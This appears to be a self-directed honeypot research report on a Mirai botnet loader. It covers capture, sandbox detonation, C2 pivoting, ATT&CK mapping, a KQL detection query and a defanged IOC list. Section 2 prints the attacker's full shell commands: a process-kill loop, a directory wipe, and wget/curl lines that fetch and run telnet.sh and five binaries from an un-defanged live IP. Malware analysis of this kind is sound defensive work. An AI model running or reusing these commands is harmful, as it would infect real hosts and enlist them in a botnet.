









# Chasing Mirai: Honeypot Capture, Detonation & C2 Pivot

> **TLP:CLEAR** · Self-directed honeypot research · Analyst: `Darren McEwan` · Date: June 2026
>

---

## 1. Executive Summary

Over a single authenticated SSH session, an internet-facing honeypot running the Cowrie/SSH sensor caught a full botnet infection attempt. The actor probed the host for write access, ran a loop to evict any competing malware already present, wiped the working directory, then pulled down a loader (`telnet.sh`) that fetched five architecture specific binaries (`arm7`, `arm5`, `mips`, `mpsl`, `x86`) and tried to run whichever one matched the host CPU.

I captured the loader file, analysed it, and detonated it on an isolated enterprise sandbox (Recorded Future Triage). On execution, the sample resolved to a C2 domain over DNS and beaconed out to it, then the execution failed on an ARM emulation error. I then extracted the correct architecture line from the payload and detonated on a matched sandbox, which returned a successful execution. Vendor detection on VirusTotal, backed by the samples own behaviour, places it in the Mirai family.

This brief follows the sample from end to end. Capture, distribution, detonation, C2 infrastructure, pivot, and attribution. This report contains MITRE ATT&CK mapping, KQL query for detection, and an honest account of the limitations of a medium-interaction honeypot.

---

## 2. Initial Access & Capture (Cowrie)

**Sensor:** T-Pot / Cowrie (medium-interaction SSH/Telnet honeypot)  
**Session / TTY log:** `fbdf738520002099bf440ad05af07a27b9fb5ebc9f7dad2e79f5f264d72e3643`  
**Source IP:** `43.162.99[.]8` (session `85b8ec6f5c1e`, protocol SSH)  
**Timestamp:** `2026-06-03T10:13:21Z`  
**Outcome:** Loader delivery attempted; payload execution attempt

After authenticating, the attacker ran a single chained shell command which included a writability test, competitor removal loop, a wipe of the directory, and a loader fetch.



*Cowrie playlog of the captured session*

```sh
echo W >/tmp/.t 2>&1 && echo OK || echo FAIL          # /tmp writability probe
rm -f /tmp/.t
cd /tmp
for pid in /proc/[0-9]*; do                            # malware removal loop
  pid_num="${pid##*/}"
  if [ -r "$pid/maps" ]; then
    suspicious=true
    while IFS= read -r line; do
      case "$line" in
        */lib/*|*/lib64/*|*.so*) suspicious=false; break;;
      esac
    done < "$pid/maps"
    if [ "$suspicious" = true ]; then kill -9 "$pid_num"; fi
  fi
done
cd /tmp; rm -rf *                                       # wipe working
wget http://31.56.209.220/telnet.sh -O telnet.sh 2>/dev/null \
  || curl http://31.56.209.220/telnet.sh -o telnet.sh 2>/dev/null \
  || { echo DOWNLOAD_FAILED; exit 0; }
chmod 777 telnet.sh; sh telnet.sh
```

`telnet.sh` then ran a multi-architecture spray:

```sh
rm arm7;  wget http://31.56.209.220/arm7;  chmod 777 arm7;  ./arm7 telnet
rm arm5;  wget http://31.56.209.220/arm5;  chmod 777 arm5;  ./arm5 telnet
rm mips;  wget http://31.56.209.220/mips;  chmod 777 mips;  ./mips telnet
rm mpsl;  wget http://31.56.209.220/mpsl;  chmod 777 mpsl;  ./mpsl telnet
rm x86;   wget http://31.56.209.220/x86;   chmod 777 x86;   ./x86 telnet
```

###  Breakdown

The `/proc/[0-9]*` loop reads each process's memory map and kills anything whose maps contain no shared library (`/lib/`, `/lib64/`, `.so`). The process is effectively hunting rival malware in a turf war over the host, before the actor drops their own payload.

The payload doesn't run immediately though. It doesn't have a reliable way to detect the host CPU architecture, so the loader just throws all five at the wall - `arm7`, `arm5`, `mips`, `mpsl`, `x86` - and whichever binary matches, does the work. The shotgun delivery is commonly seen in Mirai malware variants, as is the `telnet` argument with each binary. `./arm7 telnet` is Mirai's way of tagging the propagation vector.

The fetch uses a `wget` with a `curl` fallback and a clean `DOWNLOAD_FAILED; exit 0`, so if the download fails it leaves the host in a tidy state rather than a broken half-install.

---

## 3. Payload Distribution Infrastructure

Everything was served from one distribution host `31.56.209[.]220` with `telnet.sh` and all five architecture binaries in the payload. It's the same IP seen connecting in the Cowrie session.

Looking into the IP address further we can see it's been used to deploy malware since March 2026. The neighbouring IP address `31.56.209[.]210` has been seen serving other multi-architecture payloads with the `.Sakura` naming convention.

| Source | Finding |
|---|---|
| Shodan | Open ports **1337** and **25565**; port 25565 (the Minecraft default, Mirai was originally a Minecraft botnet) serves an **ARMv7 ELF32, little-endian**. Last seen 2026-06-04. | 
| AbuseIPDB | Abuse confidence **70%**; reported **14 times** from 13  sources; first reported 2026-06-01; usage type Data Center / Web Hosting / Transit. |


*Shodan results for the distribution host*


*AbuseIPDB report for the distribution host*

Shodan attributes the IP to the UK under Hydra communications but AbuseIPDB reports Netherlands under Swissnet LLC. Both geolocations conflict and single source IP locating is fairly unreliable. So there is no location attributed.

---

## 4. Sample Retrieval

| Stage | Hash (SHA-256) | Source |
|---|---|---|
| Captured by Cowrie | `c038cb040eb402241220baaf169bcb208181e9bbd87f502b7d0cfc3c9c81b114` | `/data/cowrie/dl/` (`telnet.sh`)
| Write-probe | `7062c0dcd502ab26e450e2881a89cae3def227f2ea20801898ad088e10db071` | Cowrie capture of `/tmp/.t` (the `echo W` writability test) |

---

## 5. Dynamic Analysis (Sandbox Detonation)

**Environment:** Recorded Future Triage

The sample was executed and performed a connectivity check firstly on an Ubuntu emulation, this connection resolved to its C2 domain over DNS before failing due an emulation architecture error.

All network behaviour below was captured before the failure.


*Network activity captured during sandbox detonation*


*Boot-level fd0 error that terminated the sandbox run*

Observed network sequence:

```
GET  http://connectivity-check.ubuntu.com/        # checking if it can reach the internet
GET  http://31.56.209[.]220/arm7                  # loader retrieval
GET  http://31.56.209[.]220/arm5
GET  http://31.56.209[.]220/mips
GET  http://31.56.209[.]220/mpsl
GET  http://31.56.209[.]220/x86
DNS  youareall.botlesscucks[.]st  →  87.243.45[.]156   (resolver 8.8.8.8)
```

Having tried the payload host `31.56.209[.]220`, the sample opened a TCP connection to `45.156.87[.]243:42061` and made a DNS request for `youareall.botlesscucks[.]st` - the C2 domain. 

Worth flagging that the C2 wasn't hardcoded into the payload and the sample resolved after executing, which makes this genuine beaconing behaviour.

After resolving to the C2, the sandbox failed with the error `print_req_error: I/O error, dev fd0, sector 0`. This is the sandbox attempting to read a floppy device, which doesnt exist. This wasn't a malware induced compromise.

I then spun up a Debian machine with the MIPS architecture, and ran the MIPS fetch of the payload directly via command line. 


*Successful MIPS payload execution on Debian, printing the check string*

This detonation succeeded and left `it was never about the taste` - there are no exact match for that phrase on other Mirai reports. But, Mirai is known for printing "check strings" as a form of displaying a successful-execution or a check-in marker. Mirai fork authors tend to routinely swap these prints out for other operator memes and jokes, some forks contain Rick Roll references and some russian samples containing `я люблю куриные наггетсы` - which translates to "I love chicken nuggets".

A split second after I grabbed that screenshot, the bot tore down its controlling console and left me with a plain blank console, which stopped my analysis as the VM went unresponsive afterwards. The C2 beaconing continued after the tear down.

---

## 6. C2 Infrastructure & Pivot

**Resolved C2:**


*VirusTotal relations tab for the C2 domain, showing siblings and communicating files*


*VirusTotal graph for the C2 cluster*

| Field | Value |
|---|---|
| C2 domain | `youareall.botlesscucks[.]st` |
| Resolved IP (passive DNS, 2026-05-20) | `87.243.45[.]156` |
| Outbound connection observed (§5) | `45.156.87[.]243:42061` |
| Parent domain | `botlesscucks[.]st` (6/91 malicious on VT; registrar "StanCo and Istanco" created 20 days prior to analysis) |

**Sibling subdomains.** The cluster returns at least two IPs, showing that the operator isn't relying on a single host.

| Subdomain | VT detections | Resolved IP |
|---|---|---|
| `youareall.botlesscucks[.]st` | 6/91 | `87.243.45[.]156` |
| `musika.botlesscucks[.]st` | 3/91 | `87.243.45[.]156` |
| `stoplooking.botlesscucks[.]st` | 3/91 | `87.243.45[.]156` |
| `hackattackkaboom.botlesscucks[.]st` | 0/91 | `45.153.34[.]26` |

The deliberate provocative naming reads as if the operator is researcher aware - or knows people will find the domains and doesn't mind.

**9 communicating files.** VirusTotal records **9 ELF files communicating with `botlesscucks[.]st`** (pivot method: VT "Communicating Files"). A couple carry `.exe` names despite being ELF binaries.

| Name | Type | VT detections | Hash |
|---|---|---|---|
| `arm5` | ELF | 31/60 | 07bcfe93ba826112d94e11ed81e99e79019187b4cef043806f98fbcb4db4aa2a |
| `arm7` | ELF | 31/62 | 5c501efadac0000afee68f6e6b8c362f20d66734f036ab26ea23ade50fd7cf3a |
| `arm7` | ELF | 7/63 | 0df7a32f5fe9fe6ea22f10ffa58e85b47a41457110c6f737cc7e522a91eb86e9 |
| `arm7` | ELF | 7/63 | 59fee4bf38eb47c4e459f301c0183dd0e5578a4583682f44cb59041d9c5356d6 |
| `arm7` | ELF | 6/63 | bf24a58f4bd6fba6dea8afbd33139a8c34fb47b38ca9c291ba166ac0045b8017 |
| `arm7` | ELF | 7/63 | b64765c88f7dcce87eb2b4d13971804db91b8f752eea352be57ee97395c7b81f |
| `31.56.209.220_sample.bin` | ELF | 28/64 | 3e4ae8aa79c9d5b175f4d7df4e44213c95eb8b345fb789645312b5885b499d11 |
| `kik` | ELF | 29/61 | 7418b9119c35546c07c323497d0a6f58e6bda829080b9070609ae358c2252489
| `det00xh6t.exe` | ELF | 22/63 | 1132b1f6020484a4c7247a0803db90a76f91e1b55cb1e2c4dfd61b73c27cf45e |
| `n14ec8yj7.exe` | ELF | 8/63 | 7fa2d0314f179b133418884d7af125716f166fca70d55a7419cec9d4806f4b12 |

Note: more files may be added after this research was completed.

---

## 7. Attribution

**Family: Mirai.**


*VirusTotal detection results for telnet.sh*

VirusTotal classifies the dropper `c038cb...c81b114` with the threat label `downloader.gen2/mirai` (family labels: `gen2`, `mirai`, `bash`). Detection ratio is 11/56 at the time of research.

- Huorong — `TrojanDownloader/Linux.Mirai.aq`
- Varist — `SH/Mirai.C.gen!Camelot`
- DrWeb — `Linux.DownLoader.37`
- Tencent — `Html.Trojan.Expkit.Uylw`
- Cynet — `Malicious (score 99)`

Considering the VT labels, the observed behaviour (shotgun payload, telnet-tagged activation, competitor removal). We can attribute this to the Mirai family.

---

## 8. MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|---|---|---|---|
| Initial Access | Valid Accounts / Brute Force | T1078 / T1110 | Authenticated SSH access (`43.162.99[.]8`) |
| Execution | Command & Scripting Interpreter: Unix Shell | T1059.004 | Chained `sh` loader and `telnet.sh` |
| Discovery | Process Discovery | T1057 | `/proc/[0-9]*` enumeration in the eviction loop |
| Defense Evasion | File Deletion | T1070.004 | `rm -f /tmp/.t`, `rm -rf *` |
| Defense Evasion | File & Directory Permissions Modification | T1222.002 | `chmod 777` on each binary |
| Command & Control | Ingress Tool Transfer | T1105 | Loader + binary fetches over HTTP |
| Command & Control | Application Layer Protocol / Non-Standard Port | T1071 / T1571 | Runtime C2 resolution, connection to `45.156.87[.]243:42061` |

---

## 9. Detection Engineering

The detections below target the behavioural chain, rather than the binary itself. The raw IoT ELF is highly unlikely to appear in a Microsoft/Windows estate as ELF relies on Linux system calls. But, the download > permission change > execution pattern would surface on a Linux server running EDR.

### 9.1 KQL (Microsoft Defender for Endpoint, Linux)

```kql
// Download -> chmod -> execute from a writable path on Linux endpoints
DeviceProcessEvents
| where Timestamp > ago(7d)
| where ProcessCommandLine has_any ("wget", "curl")
| where ProcessCommandLine has_any ("/tmp", "/dev/shm", "/var/tmp", "/var/run")
| where ProcessCommandLine has_any ("chmod 777", "chmod +x")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessFileName
| order by Timestamp desc
```

**Notes:**
1. **Telemetry scope.** This is Linux IoT malware, a Windows estate would never see the binary. The detection is meaningful only for **Linux servers under EDR.**
2. **False-positive load.** `wget` + `chmod` + `/tmp` is fairly routine for installers. A deployment could generate noise. I would recommend matching sequence/timing and process context before production use.
3. **No production analogue for the eviction loop.** The `/proc/maps` rival kill is visible on the honeypot, but doesn't really have a clean EDR detection equivalent.

---

## 10. Indicators of Compromise

> All indicators defanged. Attacker IOCs only, no honeypot infrastructure is published.

| Type | Indicator | Description |
|---|---|---|
| Attacker source IP | `43.162.99[.]8` | Source of the Cowrie SSH session |
| Distribution host | `31.56.209[.]220` | Served `telnet.sh` + 5 arch binaries; ports 1337, 25565; same IP as the session |
| Loader URL | `hxxp://31.56.209[.]220/telnet.sh` | First-stage dropper |
| Payload URLs | `hxxp://31.56.209[.]220/{arm7,arm5,mips,mpsl,x86}` | Architecture-specific binaries |
| C2 domain | `youareall.botlesscucks[.]st` | Resolved at runtime during detonation |
| C2 IP (passive DNS) | `87.243.45[.]156` | A record for `youareall` / `musika` / `stoplooking` |
| C2 connection | `45.156.87[.]243:42061` | Outbound TCP observed during detonation |
| Sibling IP | `45.153.34[.]26` | A record for `hackattackkaboom.botlesscucks[.]st` |
| C2 cluster | `*.botlesscucks[.]st` (`youareall`, `stoplooking`, `hackattackkaboom`, `musika`) | Operator-controlled subdomain cluster |
| Dropper hash | `c038cb040eb402241220baaf169bcb208181e9bbd87f502b7d0cfc3c9c81b114` | `telnet.sh`, confirmed Mirai-family downloader |
| Write-probe hash | `7062c0dcd502ab26e450e2881a89cae3def227f2ea20801898ad088e10db071` | `/tmp/.t` writability-test artifact |
| Related samples | 9 × ELF communicating with `botlesscucks[.]st` (see §6) | Pivoted via VT Communicating Files |

And the list of communicating file IOCs from earlier:


| Name | Type | VT detections | Hash |
|---|---|---|---|
| `arm5` | ELF | 31/60 | 07bcfe93ba826112d94e11ed81e99e79019187b4cef043806f98fbcb4db4aa2a |
| `arm7` | ELF | 31/62 | 5c501efadac0000afee68f6e6b8c362f20d66734f036ab26ea23ade50fd7cf3a |
| `arm7` | ELF | 7/63 | 0df7a32f5fe9fe6ea22f10ffa58e85b47a41457110c6f737cc7e522a91eb86e9 |
| `arm7` | ELF | 7/63 | 59fee4bf38eb47c4e459f301c0183dd0e5578a4583682f44cb59041d9c5356d6 |
| `arm7` | ELF | 6/63 | bf24a58f4bd6fba6dea8afbd33139a8c34fb47b38ca9c291ba166ac0045b8017 |
| `arm7` | ELF | 7/63 | b64765c88f7dcce87eb2b4d13971804db91b8f752eea352be57ee97395c7b81f |
| `31.56.209.220_sample.bin` | ELF | 28/64 | 3e4ae8aa79c9d5b175f4d7df4e44213c95eb8b345fb789645312b5885b499d11 |
| `kik` | ELF | 29/61 | 7418b9119c35546c07c323497d0a6f58e6bda829080b9070609ae358c2252489
| `det00xh6t.exe` | ELF | 22/63 | 1132b1f6020484a4c7247a0803db90a76f91e1b55cb1e2c4dfd61b73c27cf45e |
| `n14ec8yj7.exe` | ELF | 8/63 | 7fa2d0314f179b133418884d7af125716f166fca70d55a7419cec9d4806f4b12 |

---

## 11. Defensive Mitigations

- **Disable SSH/Telnet password authentication.** The initial vector is credential brute force/stuffing, the honeypot leaves the authentication open. Disabling telnet and enabling public key authentication for SSH will reduce the likelihood of inital compromise.
- **Restrict outbound access where practical.** The loader relies on reaching `31.56.209[.]220` and the C2; restricting outbound network access will limit payload retrieval and C2 communication.
- **EDR on Linux servers and the detections query linked above**, tuned for false positives before production. If you aren't implementing the detection query, I would keep an eye out for a similar chain of commands on your telemetry.
- **Monitor critical files and directories for changes** File integrity monitoring on `~/.ssh/`, `/etc/`, and temp directories may help spot persistence mechanisms or unauthorised modifications

---

## 12. Limitations & Confidence

- **Medium-interaction capture.** Cowrie is a shell emulation that captures attackers intent and fetched binary, but it doesn't execute anything. Behaviour analysis comes from sandbox detonation rather than the honeypot. Using a high-interaction honeypot would have given us the whole attack.
- **Emulation artifacts in the captured session.** The loader's `echo ... && echo OK || echo FAIL` probe returned both `OK` and `FAIL`, and shell loops returned `command not found`. Cowrie's shell didn't show the correct outputs of exit codes. These give away the shell is a honeypot to an attacker.
- **Attribution confidence.** Attribution to the Mirai family is assessed with high confidence based on behavioural characteristics and VT detections. While related infrastructure was observed, there's not enough evidence to point it to a specific threat actor.

---

_Self-directed research conducted on an isolated, internet-facing honeypot for portfolio and skills-development purposes. No third-party systems were accessed. Live malware handling was performed in a suitable sandbox environment._
